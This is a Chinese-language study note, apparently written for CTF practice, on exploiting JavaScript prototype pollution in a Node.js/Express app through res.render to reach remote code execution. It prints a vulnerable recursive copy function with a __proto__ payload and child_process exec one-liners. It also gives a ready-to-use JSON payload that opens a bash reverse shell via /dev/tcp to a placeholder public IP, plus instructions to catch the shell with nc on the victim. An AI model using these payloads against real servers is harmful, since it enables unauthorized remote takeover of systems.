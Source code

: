 ![微信图片编辑_20230429162321.jpg](https://cdn.nlark.com/yuque/0/2023/jpeg/29405061/1682756611270-70cda1e0-3994-4aa1-b6ec-7afb681615a1.jpeg#averageHue=%23cdcbc9&clientId=u10df4e69-9145-4&from=paste&height=1833&id=uecdbeb63&originHeight=1540&originWidth=647&originalType=binary&ratio=2&rotation=90&showTitle=false&size=48290&status=done&style=none&taskId=uc652a0de-49bf-4219-b78e-3cea89cc48c&title=&width=770)
:::info
Object是个构造函数<br />当我们创建一个构造函数时，JavaScript会自动创建一个空对象，并将其赋值给该构造函数的prototype属性。这个空对象的原型对象就是Object.prototype
:::

### 实例1 res.render

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1671956219211-cff620a9-5615-4a20-b1db-a9077d834119.png#averageHue=%231f1e1e&clientId=uf6a03316-189a-4&from=paste&height=294&id=uc6cd3923&originHeight=587&originWidth=1894&originalType=binary&ratio=1&rotation=0&showTitle=false&size=98207&status=done&style=none&taskId=u6a6d026c-8d55-4536-b843-8d4a84b3931&title=&width=947)

- res.render将渲染的视图发送给客户端，这里如果构造一个query，如果我们能够通过原型污染攻击给它赋任意我们想要的值,就可以进行rce了。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1672716599893-eea1d773-05d5-4c49-8dc0-b41248b9b534.png#averageHue=%231f1e1e&clientId=u78f733d3-4a3e-4&from=paste&height=329&id=uc8d18338&originHeight=723&originWidth=1467&originalType=binary&ratio=1&rotation=0&showTitle=false&size=105254&status=done&style=none&taskId=ucdadbb27-59f3-4c6b-ba9f-646e3acc528&title=&width=666.8181673652873)

- 在login.js中，copy函数存在原型链污染，给了我构造query的机会

```javascript
function copy(object1, object2){
   for (let key in object2) {
       if (key in object2 && key in object1) {
           copy(object1[key], object2[key])
       } else {
           object1[key] = object2[key]
       }
   }
 }
var user ={}
body=JSON.parse('{"__proto__":{"query":"return 123"}}');
copy(user,body);
console.log(query);
```

- 执行这个代码，发现query已经被赋值

#### 加载模块-任意代码执行

[https://h4cking2thegate.github.io/2022/09/27/nodejsVul/](https://h4cking2thegate.github.io/2022/09/27/nodejsVul/)

```javascript
require('child_process').exec('calc');
global.process.mainModule.constructor._load('child_process').exec('calc');
```

#### 反弹shell

```shell
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/你的公网ip地址/端口 0>&1\"')"}}
```

- 这种写法更具有普适性。
- 在victim主机上执行反弹shell命令，在服务器上用nc监听端口

[nc命令用法举例 - nmap - 博客园](https://www.cnblogs.com/nmap/p/6148306.html)
